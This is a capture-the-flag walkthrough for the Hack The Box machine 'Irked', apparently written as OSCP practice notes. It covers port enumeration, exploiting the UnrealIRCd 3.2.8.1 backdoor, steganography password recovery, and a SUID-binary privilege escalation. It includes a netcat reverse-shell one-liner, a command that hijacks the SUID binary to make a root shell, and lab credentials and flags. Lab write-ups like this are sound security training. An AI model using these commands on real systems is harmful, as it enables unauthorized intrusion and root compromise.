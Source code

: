 Machine: https://app.hackthebox.com/machines/163

IP: 10.10.10.117

# Enumeration

Port 22
Port 80:

`IRC is almost working!`

111

Port 6697:

```bash
telnet 10.10.10.117 6697

ERROR :Closing Link: [10.10.16.12] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
```

8067
45613
65534

Use `hexchat` to connect to IRC server

`hexchat`

Add new **Networks** -> Use 10.10.10.117/6697 as server

After connected we can see the version of it:

`Your host is irked.htb, running version Unreal3.2.8.1`


# Exploitation

`searchsploit unrealirc`

Seeing the exploit `searchsploit -x linux/remote/16922.rb`:

`sock.put("AB;" + payload.encoded + "\n")`

Payload:

`AB; reverse shell`

`AB;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.12 1234 >/tmp/f`

Got shell as ircd

# Post-Exploitation

## Shell as ircd

ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss

We have irked.jpg earlier that required passphrase when using steghide against it

```bash
➜  www steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".
```

pass.txt

`Kab6h+m+bbp2J:HG`

Logged in djmardov

## Shell as djmardov

user.txt 93be9ff8a2df233136394ad8a972c357

SUID that stand out:

`/usr/bin/viewuser`

When we execute this binary, we see that it tries to execute something in /tmp/listusers because there is `sh:` in the front

```bash
bash-4.3# viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-02-20 13:06 (:0)
djmardov pts/1        2024-02-20 13:40 (10.10.16.12)
sh: 1: /tmp/listusers: not found
```

Exploit:

`echo "cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash" > /tmp/listusers`

`/tmp/bash -p`

root.txt bb38f568bc6d54973e6541191c45a3a1

# Beyond Root

Let's get this `viewuser` file to our machine and ltrace it

`ltrace ./viewuser`

`setuid(0)                                                   = -1
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
`

It sets the `setuid` to 0 which is root and execute the `/tmp/listusers` file.
![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/0c487738-6455-40ab-9d2c-41a0f1775c03)
